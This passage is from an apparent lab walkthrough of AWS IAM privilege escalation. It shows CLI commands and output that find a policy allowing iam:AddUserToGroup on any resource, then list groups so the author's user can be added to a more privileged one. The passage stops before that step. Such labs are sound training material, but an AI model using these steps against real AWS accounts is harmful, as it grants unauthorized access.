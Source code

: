 Observe the Description and `DefaultVersionId`, we can retrive the policy and check what permission it assigns to the user using the versionId of the policy.\
This policy allows user to `AddUserToGroup`, basically user can add any user to any group.  

```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc13-AddUserToGroup --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:AddUserToGroup",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2024-01-21T19:26:57+00:00"
    }
}
```

We can exploit this permission by adding our own user to a group which has higher level of permissions assigned to it. We will first list the groups available.

```
❯ aws iam list-groups
{
    "Groups": [
        {
            "Path": "/",
            "GroupName": "privesc-sre-group",
            "GroupId": "AGPA6CT7N4R3IRZOB5AYV",
            "Arn": "arn:aws:iam::9[REDACTED]2:group/privesc-sre-group",
            "CreateDate": "2024-01-21T19:26:52+00:00"
        },
        {
            "Path": "/",
            "GroupName": "privesc11-PutGroupPolicy-group",
            "GroupId": "AGPA6CT7N4R3AWFI53WKK",
            "Arn": "arn:aws:iam::9[REDACTED]2:group/privesc11-PutGroupPolicy-group",
            "CreateDate": "2024-01-21T19:26:58+00:00"
        },
        {
            "Path": "/",
            "GroupName": "privesc8-AttachGroupPolicy-group",
            "GroupId": "AGPA6CT7N4R3ALEALDX3J",
            "Arn": "arn:aws:iam::9[REDACTED]2:group/privesc8-AttachGroupPolicy-group",
            "CreateDate": "2024-01-21T19:26:54+00:00"
        }
    ]
}

```
